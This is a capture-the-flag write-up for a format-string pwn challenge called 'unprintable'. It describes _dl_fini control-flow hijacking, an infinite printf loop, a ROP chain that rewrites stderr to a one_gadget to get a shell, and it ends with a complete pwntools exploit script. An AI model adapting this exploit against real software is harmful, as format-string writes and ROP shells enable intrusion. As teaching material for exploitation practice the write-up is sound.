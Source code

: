 [中文](./README_zh.md) [English](./README.md)

[attachment.zip](./attachment.zip)

This question is actually a variant of the printable from pwnable.tw

In theory, you can print out the stack address, as long as you predict the last three bits of the stack.

The first is to hijack the control flow, there is an leaving address from ld.so on the stack

The dl_fini function is executed when exit, and there is a interesting piece in it.

```
<_dl_fini+819>: call QWORD PTR [r12+rdx*8]
```

Rdx is fixed to 0, r12 is from the following code snippet

```
<_dl_fini+777>: mov r12, QWORD PTR [rax+0x8]
<_dl_fini+781>: mov rax, QWORD PTR [rbx+0x120]
<_dl_fini+788>: add r12, QWORD PTR [rbx]
```

Rbx points to the address of the ld.so that remains on the stack, so we can control the value of \[rbx]

R12 defaults to fini_array. By controlling rbx, we can let r12 point to bss, that is, we can hijack the control flow.

But after hijacking the flow of control?

We can jump back to the main function

```
.text:00000000004007A3 mov edx, 1000h ; nbytes
.text:00000000004007A8 mov esi, offset buf ; buf
.text:00000000004007AD mov edi, 0 ; fd
.text:00000000004007B2 call read
```

Read the content again to the bss section, then printf out

If you are careful, you can find that the 23rd parameter on the stack just points to the return address of printf now, that is, we can jump back to 0x4007A3 after printf, that is, infinite loop printf

With an infinite loop printf, it's done like a regular printf

At this time, we have any arbitrary writes, we can write the contents of the printf return address on the stack, write the address of a bss section, and then use the pop rsp gadget to rop.

There is also a small pit, which is that printf can't write values ​​with %hn after more than 0x2000 bytes, so it has to be brute force to the appropriate stack address, but the probability is quite high.

With rop? We still can't leak, this time we can use a magical gadget

```
.text:00000000004006E8 adc [rbp+48h], edx
```
Rbp and edx are all controllable, just in the bss section there are stdin, stdout, sterr these values, pointing to libc

So we can use this gadget to change stderr to one_gadget and then use __libc_csu_init
```
Call qword ptr [r12+rbx*8]
```
You can get the shell

After the get shell is quite simple, use the redirect to get the flag

```
Cat flag >&0
```

## exp
```
from pwn import *

debug=1

context.log_level='debug'

if debug:
    p=process('./unprintable')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
else:
    p=remote('',)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def wait(x=True):
    #raw_input()
    sleep(0.3)

def write_addr(addr,sz=6):
    t = (stack+0x40)%0x100
    v = p64(addr)
    for i in range(sz):
        if t+i != 0:
            se('%'+str(t+i)+'c%18$hhn%'+str(1955-t-i)+'c%23$hn\x00')
        else:
            se('%18$hhn%1955c%23$hn')
        wait()
        tv = ord(v[i])
        if tv != 0:
            se('%'+str(tv)+'c%13$hhn%'+str(1955-tv)+'c%23$hn\x00')
        else:
            se('%13$hhn%1955c%23$hn')
        wait()

def write_value(addr,value,addr_sz=6):
    write_addr(addr,addr_sz)
    se('%'+str(ord(value[0]))+'c%14$hhn%'+str(1955-ord(value[0]))+'c%23$hn\x00')
    wait()
    ta = p64(addr)[1]
    for i in range(1,len(value)):
        tmp = p64(addr+i)[1]
        if ta!=tmp:
            write_addr(addr+i,2)
            ta = tmp
        else:
            write_addr(addr+i,1)
        if ord(value[i]) !=0:
            se('%'+str(ord(value[i]))+'c%14$hhn%'+str(1955-ord(value[i]))+'c%23$hn\x00')
        else:
            se('%14$hhn%1955c%23$hn\x00')
        wait()

buf = 0x601060+0x100+4

ru('This is your gift: ')
stack = int(ru('\n'),16)-0x118

if stack%0x10000 > 0x2000:
    p.close()
    exit()

ret_addr = stack - 0xe8

se('%'+str(buf-0x600DD8)+'c%26$hn'.ljust(0x100,'\x00')+p64(0x4007A3))
wait()

tmp = (stack+0x40)%0x10000

se('%c'*16+'%'+str(tmp-16)+'c%hn%'+str((163-(tmp%0x100)+0x100)%0x100)+'c%23$hhn\x00')

wait()

if debug:
    gdb.attach(p)

raw_input()

rop = 0x601060+0x200

write_value(stack,p64(rop)[:6])


context.arch = 'amd64'

prbp = 0x400690
prsp = 0x40082d
adc = 0x4006E8
arsp = 0x0400848
prbx = 0x40082A 
call = 0x400810 
stderr = 0x601040 

payload = p64(arsp)*3
payload += flat(prbx,0,stderr-0x48,rop,0xFFD2BC07,0,0,call)
payload += flat(adc,0,prbx,0,0,stderr,0,0,0,0x400819)

se(('%'+str(0x82d)+'c%23$hn').ljust(0x200,'\0')+payload)

print(hex(stack))

p.interactive()
```